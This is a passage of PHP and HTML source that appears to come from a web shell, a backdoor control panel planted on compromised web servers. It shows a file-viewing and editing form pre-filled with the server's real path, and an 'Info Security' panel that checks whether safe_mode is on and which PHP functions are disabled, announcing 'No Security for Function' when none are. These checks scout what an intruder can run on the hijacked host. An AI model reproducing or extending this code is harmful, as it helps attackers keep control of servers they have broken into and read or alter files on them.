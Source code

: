 		&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" class="style1" colspan="6"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;Show 
	File And Edit&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    				&lt;/tr&gt;
		&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;Path :&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5"&gt;
	&lt;strong&gt;
	&lt;input name="pathclass" type="text" style="width: 284px" value="&lt;?php echo realpath('')?&gt;"&gt;&lt;/strong&gt;&lt;/td&gt;
    	&lt;/tr&gt;
		&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%"&gt;&nbsp;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5"&gt;&lt;strong&gt;&lt;input type="submit" value="show"&gt;&lt;/strong&gt;&lt;/td&gt;
    				&lt;/tr&gt;
&lt;input name="page" type="hidden" value="show"&gt;        				
&lt;/form&gt;    				
					&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" class="style1" colspan="6"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;Info 
	Security&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    				&lt;/tr&gt;
    	&lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;Safe Mode&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5"&gt;
	&lt;strong&gt;
&lt;?php
$safe_mode = ini_get('safe_mode');
if($safe_mode=='1')
{
echo 'ON';
}else{
echo 'OFF';
}

?&gt;	
	&lt;/strong&gt;	
	&lt;/td&gt;
    				&lt;/tr&gt;
    &lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%"&gt;&lt;strong&gt;
	&lt;font size="4"&gt;Function&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5"&gt;
	&lt;strong&gt;
&lt;?php
if(''==($func=@ini_get('disable_functions')))
{
echo "&lt;font color=#00800F&gt;No Security for Function&lt;/font&gt;&lt;/b&gt;";
}else{
echo "&lt;font color=red&gt;$func&lt;/font&gt;&lt;/b&gt;";
}
?&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" style="width: 19%"&gt;&nbsp;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5"&gt;&nbsp;&lt;/td&gt;
    &lt;/table&gt;
    &lt;/td&gt;
    &lt;/tr&gt;
    &lt;/table&gt;
	